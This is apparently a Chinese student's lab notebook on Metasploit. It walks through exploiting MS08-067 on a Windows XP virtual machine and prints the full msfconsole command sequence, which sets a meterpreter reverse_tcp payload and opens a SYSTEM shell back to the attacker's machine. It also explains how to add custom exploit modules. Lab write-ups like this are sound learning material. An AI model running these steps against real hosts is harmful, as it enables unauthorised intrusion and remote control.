

## 0x00 序


课上体验了一把msf的一套流程，但是由于靶机已经上了补丁，所以失败了，这次来记录一下Metasploit的一套攻击流程，也不知道为啥，网上所有的入门也是拿课上的`ms08-067` 来测试的

那么我们这次来学习一下msf，并且能用msf用着`ms08-067` 来获取一个xp主机的`cmd`

（还顺便学学怎么加入自己的exp


> 参考：
>
> [Metasploit 官网](https://www.metasploit.com/)
>
> [MSF - Github](https://github.com/rapid7/metasploit-framework) ：  msf的github仓库
>
> [Metasploit入门系列(一)——何为MSF](https://www.jianshu.com/p/23a6df0c12ab)
>
> > [Metasploit入门系列(二)——初识模块](https://www.jianshu.com/p/ccd62cb6d691)
> >
> > [Metasploit入门系列(三)——基本命令](https://www.jianshu.com/p/2dec885bb3cf)
> >
> > [Metasploit入门系列(四)——小结备查](https://www.jianshu.com/p/52196a3cdce2)
> >
> > [Metasploit入门系列(五)——frp](https://www.jianshu.com/p/a94c247fe31d)
> >
> > [Metasploit入门系列(六)——永恒之蓝](https://www.jianshu.com/p/b6cc6ffa0695)
> >
> > [Metasploit入门系列(七)——Armitage](https://www.jianshu.com/p/412ce1fc7adc)
> >
> > [Metasploit入门系列(八)——Meterpreter(一)](https://www.jianshu.com/p/91a342fb664e)
> >
> > [Metasploit入门系列(九)——Meterpreter(二)](https://www.jianshu.com/p/91588e284fe8)
> >
> > [Metasploit入门系列(十)——Meterpreter(三)](https://www.jianshu.com/p/fcc665c91c94)
> >
> > [Metasploit入门系列(十一)——后渗透测试](https://www.jianshu.com/p/c6e544f9ec99)
>
> [Metasploit 学习笔记](https://blog.csdn.net/tan6600/article/details/46845793) ： 模块介绍
>
> [Meterpreter初探](https://www.cnblogs.com/wangyuyang1016/p/11032201.html) ：Metasploit的一个扩展模块，在后渗透阶段有强大的攻击力
>
> [后渗透之meterpreter使用攻略](https://xz.aliyun.com/t/2536)
>
> 


## 0x01 介绍


Metasploit是一款开源的安全漏洞检测工具，到目前为止，msf已经内置了数千个 已披露的漏洞相关的模块和渗透测试工具，模块使用ruby语言编写，这使得使用者能够根据需要对模块进行适当修改，甚至是调用自己写的测试模块。选定需要使用的攻击模块之后，你只需要使用简单的命令配置一些参数就能完成针对一个漏洞的 测试和利用，将渗透的过程自动化、简单化。


以下是Metasploit个版本的区别


kali里面自带了Metasploit Framework，我们就直接拿来用了


## 0x02 亲爱的ms08-067


这是一次刺激的msf攻击流程，用的是kali2020.02的vmware版本（输入banner命令可以看到不同一些奇奇怪怪的东西）



靶机是直接从msdn上刚下的winxp pro sp2，配置如下，内网地址为`192.168.52.135`


然后用kali的nmap扫一下靶机，发现啥都没扫出来，排查后发现是winxp的防火墙的原因，将其关掉，就发现该主机了

> 当然，加入发现445端口还没开的话，需要对win xp进行配置一下
>
> 编辑注册表`HKEY_LOCAL_MACHINE=>SYSTEM=>CurrentControlSet=>Services=>NetBT=>Parameters`
>
> 在`Parameters`上右键新建`DWORD`值，数值为1，重命名为`SMBDeviceEnabled`


然后发现445端口开了之后就可以进行攻击了

在kali开启msf，先搜索一下这个漏洞，然后使用use


然后去找相应的payload


然后用set命令设置对应攻击载荷payload，这里使用的是`reverse_tcp`，这是一个基于TCP的反向链接反弹shell, 使用起来很稳定

然后用`show target` ，来查找该漏洞受影响的机器，并根据目标靶机设置该选项


然后用`set target 10` 来设置目标靶机的版本

用`show options` 查看已经设置攻击模式


然后设置目标靶机的ip地址，LHOST是攻击主机的地址

> 当用户使用Metasploit框架中的模块时，经常需要配置LHOST参数。其中，LHOST参数用来指定本地主机IP地址。由于IP地址不容易记忆，而且输入也不方便。此时，用户可以使用接口名来代替，如set LHOST eth0。当用户指定接口名后，将自动使用eth0接口的IP地址。


这边注意，LHOST不要写本地回环的地址，否则会像我一样翻车的


然后用exploit命令，成功getshell


同时我们可以看到这边后台有一个system起的`cmd.exe`，即msf渗透得到的shell

简直可以为所欲为，不过试了下，windows这边还是可以终结掉kali的cmd进程

不过又有谁会发现进程里多了一个进程呢，还是system起的


后面的meterpreter模块真的是万能的好用

> 具体命令参考：[后渗透之meterpreter使用攻略](https://xz.aliyun.com/t/2536)

一次完整的命令就如下了，虽然没有网上的博客直接打开一个shell，但是可以利用后渗透Meterpreter模块为所欲为，和getshell没啥大区别

```sh
search ms08-067
use exploit/windows/smb/ms08_067_netapi
show payloads
set payload windows/meterpreter/reverse_tcp
show targets
set target 10
show options
set RHOST 192.168.52.135 
set LHOST 192.168.52.133
exploit
```


## 0x03 设置自己的exp


> 参考：
>
> [Metasploit EXP开发](https://www.jianshu.com/p/6c7993ef7b4a)
>
> [Converting Metasploit Module to Stand Alone](https://netsec.ws/?p=262) ： 其翻译版本[如何改写msf的module为独立的exp？](https://blog.csdn.net/yalecaltech/article/details/89158575)
>
> [给kali的Metasploit下添加一个新的exploit](https://blog.csdn.net/SilverMagic/article/details/40978081)
>
> 


这边先mark一下，万一以后用到了呢/doge

其exp是使用ruby语言编写的，可以仿照msf已有的exp进行编写，存放位置如下：`/usr/share/metasploit-framework/modules/exploits/fwdtest` 

写完放到里面后，在msf下重新加载模块`msf > reload_all`，在用`use xxx`命令能够自动补全时，说明成功添加


## 0x04 常用命令链接


[metasploit常用命令](https://www.cnblogs.com/hijacklinux/p/7072854.html)

[msfconsole常用命令](https://www.jianshu.com/p/7e630bbd294a)


[meterpreter常用命令+脚本](https://maplege.github.io/2017/09/16/meterpreterCommand/)

